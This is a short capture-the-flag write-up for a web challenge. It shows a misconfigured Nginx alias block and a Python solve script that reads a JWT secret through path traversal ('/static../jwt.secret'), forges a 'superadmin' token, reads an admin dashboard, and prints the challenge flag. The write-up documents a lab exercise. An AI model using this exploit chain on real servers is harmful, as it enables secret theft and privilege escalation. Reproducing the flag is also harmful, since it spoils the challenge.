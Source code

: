 ```yaml
---
ai_date: '2025-04-27 05:14:08'
ai_summary: Misconfigured Nginx alias allowed directory traversal in static files
  leading to JWT secret exposure and privilege escalation.
ai_tags:
- lfi
- rfi
- ssrf
created: 2024-09-01T17:04
updated: 2024-09-01T17:06
---
```


After the event ended I found out that nginx misconfiguration was the solution.

😭 its nginx agian!

```nginx
location /static {
	alias /app/static/;
}
```

## solve script

```python
import re
import jwt
import requests
s = requests.Session()
t = "https://14ae2eb9-b747-42c1-9694-ee6dc5bf0b39.bugg.cc"
sec = s.get(t+"/static../jwt.secret").text
print(sec)
print(s.post(t+"/register", json={"username": "kumo", "password": "kumo"}))
print(s.post(t+"/login", json={"username": "kumo", "password": "kumo"}))
aT = s.cookies.get_dict()['accesstoken']
data = jwt.decode(aT, sec, algorithms=["HS256"])
data['role'] = 'superadmin'
aT = jwt.encode(data, sec, algorithm="HS256")
s.cookies.set('accesstoken', aT, domain="14ae2eb9-b747-42c1-9694-ee6dc5bf0b39.bugg.cc")
pid = re.search(r"<td>Welcome to the CTF!</td>\s*<td>(.+)</td>", s.get(t+"/admin/dashboard").text).group(1)
print(s.get(t+"/user/posts/"+pid).text)
```

```flag
CSCTF{0a97afb3-64be-4d96-aa52-86a91a2a3c52}
```